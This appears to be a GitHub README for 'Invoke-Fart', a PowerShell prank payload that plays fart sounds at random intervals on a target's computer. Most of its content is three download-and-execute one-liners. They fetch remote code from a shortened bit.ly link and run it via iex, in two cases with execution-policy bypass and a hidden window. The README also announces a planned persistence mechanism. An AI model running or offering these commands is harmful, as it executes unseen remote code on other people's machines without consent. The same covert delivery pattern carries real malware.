 # Invoke-Fart
Payload for delivering fart effects.

# Author

Unfortunately, the original author of Invoke-Fart is unkown, but suffice it to say, I stand on the shoulder's of giants. My meager contribution to the Invoke-Fart family is a randomized interval in a while loop to ensure that the payload will continue to execute at random intervals on the target.

# Configuration Options

Invoke-Fart has a couple of configuration options available.
|Argument|Type|Description|
|--------|----|-----------|
|Interval|TimeSpan|The minimum time to wait after a previous fart.|
|Jitter|TimeSpan|A range of time after the interval in which the fart will randomly play.|
|PlayImmediately|Switch|A flag that tells the payload to execute the fart immediately upon execution and then inter the loop.|

# Short PowerShell Download and Execute

The code below will download and run Invoke-Fart on an interval between 20 and 25 minutes. This will continue to un until the process is terminated by the user or though a restart.

```powershell
iex (New-Object System.Net.WebClient).DownloadString('https://bit.ly/3vc2Wju')
```

From the commandline.

```powershell
powershell.exe -ExecutionPolicy Bypass -NonInteractive -WindowStyle Hidden -Command "iex (New-Object System.Net.WebClient).DownloadString('https://bit.ly/3vc2Wju')"
```

Run as a background process from PowerShell.

```powershell
Start-Process "powershell.exe" "-ExecutionPolicy Bypass -Command `"iex (New-Object System.Net.WebClient).DownloadString('https://bit.ly/3vc2Wju')`"" -WindowStyle Hidden
```

# Future Work

In version 1.1.0, I plan on adding a persistence mechanism.
